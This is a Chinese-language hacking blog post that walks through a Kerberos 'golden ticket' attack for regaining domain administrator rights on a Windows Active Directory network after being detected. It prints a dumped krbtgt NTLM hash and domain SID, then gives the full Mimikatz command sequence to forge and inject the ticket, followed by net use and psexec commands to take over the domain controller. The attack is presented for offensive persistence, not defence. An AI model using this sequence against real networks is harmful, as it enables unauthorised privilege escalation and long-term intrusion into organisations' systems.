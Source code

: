 # 域渗透的金之钥匙

0x00 废话连篇
=========

* * *

最近几年很少搞内网渗透了，这几年发展的快啊，看了A牛翻译的`<<Fireeye Mandiant 2014 安全报告 Part1>>`，发现趋势都是powershell脚本化了。想当年遇到的域控都是windows 2003的，找朋友要些vbscript脚本自动化，然后那啥那啥的。现在搞域除了前段时间出的MS14068，还有龙哥翻译的（[http://drops.wooyun.org/papers/576](http://drops.wooyun.org/papers/576)）,不知道还有什么新方法，心中还有激情，如果想交流的朋友，可以加我聊聊。

0x01 金之钥匙
=========

* * *

我原来发过一个微薄说

![](http://drops.javaweb.org/uploads/images/305cbf0c27e3d50a65b60e963415df52a4376df4.jpg)

这就是我说的金之钥匙，利用这个的条件是你在原来搞定域控的时候，已经导出过域用户的HASH，尤其是krbtgt 这个用户的。但是在你在内网干其他事情的时候，活儿不细，被人家发现了，你拥有的域管理员权限掉了，你现在还有一个普通的域用户权限，管理员做加固的时候又忘记修改krbtgt密码了（很常见），我们还是能重新回来，步骤如下：

要重新拿回域管理员权限，首先要先知道域内的管理员有谁

`C:\Users\hydra>net group "domain admins" /domain`

我这里的实验环境，通过截图可以看到域管理员是administrator

我还要知道域SID是啥

`C:\Users\hydra>whoami /user`

我的域SID是`S-1-5-21-3883552807-251258116-2724407435`

还有最重要的krbtgt用户的ntlm哈希，我原来导出的是

krbtgt(current-disabled):502:aad3b435b51404eeaad3b435b51404ee:**6a8e501fabcf264c70 ef3316c6aab7dc:::**

![](http://drops.javaweb.org/uploads/images/302f47d393a0bdf8c19de9a4f0adbd38a07af810.jpg)

然后该用神器mimikatz出场了，依次执行

```
mimikatz # kerberos::purge
mimikatz # kerberos::golden /admin:Administrator /domain:pentstlab.com /sid:S-1-5-21-3883552807-251258116-2724407435 /krbtgt:6a8e501fabcf264c70ef3316c6aab7dc /ticket:Administrator.kiribi
mimikatz # kerberos::ptt Administrator.kiribi
mimikatz # kerberos::tgt

```

![](http://drops.javaweb.org/uploads/images/c717ecc8dcecd053f06130ce19122117f9763b0f.jpg)

到现在，我们又重新拥有域管理员权限了，可以验证下

```
E:\>net use \\WIN-0DKN2AS0T2G\c$
E:\>psexec.exe \\WIN-0DKN2AS0T2G cmd

```

![](http://drops.javaweb.org/uploads/images/9bc064b3e5196a595f975f8f57a7f1c2c88dbda9.jpg)

0x02 后话闲扯
=========

* * *

呃，感觉这个方法比[http://drops.wooyun.org/tips/9297](http://drops.wooyun.org/tips/9297)这个方便些，文章写了好久了，一直凑不出更多的字数，就没发。。嗯。。。懒了。。